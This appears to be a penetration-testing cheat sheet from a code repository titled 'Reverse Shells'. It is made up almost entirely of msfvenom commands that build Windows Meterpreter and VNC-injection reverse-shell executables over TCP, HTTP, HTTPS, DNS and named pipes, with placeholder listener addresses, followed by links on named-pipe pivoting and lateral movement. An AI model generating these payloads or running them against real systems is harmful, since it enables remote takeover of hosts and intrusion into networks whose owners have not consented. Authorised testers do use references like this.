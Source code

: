 # Reverse Shells

## Interactive Shells

1. x86 (32-bit) Payloads

```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x86.exe

$ msfvenom -p windows/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x86.exe

$ msfvenom -p windows/meterpreter/reverse_https handlersslcert=/path/to/file.pem sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met-x86.exe

$ msfvenom -p windows/meterpreter/reverse_tcp_dns lhost=<dns_URL> lport=<PORT> -f exe met-x86.exe
```

Specify the compromised windows host with `pipehost`.

```
$ msfvenom -p windows/meterpreter/reverse_named_pipe pipehost=<compromised_computer_IP> pipename=<PIPENAME> -f exe -o met-x86.exe
```

2. x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x64.exe

$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x64.exe

$ msfvenom -p windows/x64/meterpreter/reverse_https handlersslcert=/path/to/file.pem sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met_x86_64.exe
```

Specify the compromised windows host with `pipehost`.

```
$ msfvenom -p windows/x64/meterpreter/reverse_named_pipe pipehost=<compromised_computer_IP> pipename=<PIPENAME> -f exe -o met-x64.exe
```

## VNC

1. x86 (32-bit) Payloads

```
$ msfvenom -p windows/vncinject/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o vnc-x86.exe

$ msfvenom -p windows/vncinject/reverse_http lhost=<IP> lport=<PORT> -f exe -o vnc-x86.exe
```

2. x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/vncinject/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe

$ msfvenom -p windows/x64/vncinject/reverse_http lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe

$ msfvenom -p windows/x64/vncinject/reverse_https handlersslcert=/path/to/file.pem sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe
```

---
## References

- [Metasploit Documentation: Pivoting in Metasploit](https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html)

- [BorderGate: Lateral Movement With Named Pipes](https://www.bordergate.co.uk/lateral-movement-with-named-pipes/)

- [Nagarro Security: SMB NamedPipe Pivoting Meterpreter](https://nagarrosecurity.com/blog/smb-named-pipe-pivoting-meterpreter)

- [Peter Gombos: SMB Named Pipe Pivoting in Meterpreter](https://medium.com/@petergombos/smb-named-pipe-pivoting-in-meterpreter-462580fd41c5)